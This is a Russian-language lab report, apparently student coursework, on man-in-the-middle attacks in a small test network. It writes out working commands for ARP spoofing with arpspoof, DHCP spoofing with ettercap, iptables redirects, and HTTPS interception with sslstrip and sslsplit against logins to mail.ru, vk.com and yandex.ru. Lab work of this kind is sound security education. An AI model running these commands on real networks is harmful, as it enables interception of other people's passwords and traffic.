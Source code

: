 # Отчет

## Задание:

1. Выбрать сайт https и с помощью arpspoof перехватить данные, используя ssltrip. Сайт открыть в браузере жертвы.
2. \* Выполнить задание 1, используя dhcp spoof. Разобраться, как работает dhcp spoofing, применяя Wireshark. С помощью ettercap -G запустить dhcp spoof, направив трафик жертвы на Kali linux. В Wireshark перехватить пароль на сайт https, который пытается посетить жертва.
3. \* Выполнить задание 2, используя sslsplit. Сгенерировать сертификат, скормить его sslsplit. Если сайт перестает работать при атаке sslstrip, попробовать поработать с sslsplit.

## Выполнение:

Примечание: работы проводились на дистрибутиве Linux Kali 2020, поэтому часть команд отличается от методички.

*Состав стенда:*


    *Атакующий:* 192.168.43.111
    *"Жертва":* 192.168.43.16
    *Шлюз:* 192.168.43.1

### 1.	Выполнение задания 1.

- установлена утилита arpspoof с github.
- Запущен arp spoofing:


        arpspoof -r 1 -g 192.168.43.1 -i eth0 192.168.43.16

- Перенастроены правила iptables:


        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

- Запущен sslstrip


        sslstrip -w sslstrip.log -l 8080


- Полного результата не вышло, т.к. sslstrip выдал множественные внутренние ошибки, однако факт перехвата трафика виден по иконке безопасности в строке адреса браузера:

![Image of Yaktocat](ssl_strip.png)


### 2.	Выполнение задания 2.
- Запущен dhcp spoofing:


        ettercap -Tzq -M dhcp:/255.255.255.0/192.168.43.1

- Ettercap выдал соответствующие сообщения:

    ![Image of Yaktocat](ettercap.png)

- Опыт с sslstrip выдал результат аналогичный полученному в первом задании. 

### 3.	Выполнение задания 3.

- Созданы ключ и самоподписанный сертификат для подмены в HTTPS (TLS).

- Запущен dhcp spoofing:


        ettercap -Tzq -M dhcp:/255.255.255.0/192.168.43.1

- Перенастроены правила iptables:


        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

- Запущен sslsplit:


        sslsplit -D -l sslsplit.log -j /tmp/sslsplit/ -S /tmp/ -k server.key -c server.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080


- На компьютере жертвы произведена попытка входа по адресам https://mail.ru, https://vk.com, https://yandex.ru.

    Получены предупреждения браузера об использовании недоверенных сертификатов.
    
    ![Image of Yaktocat](warning.png)


    В случае игнорирования, происходило логирование сессии на компьютере атакующего.
    ![Image of Yaktocat](ssl_logs.png)
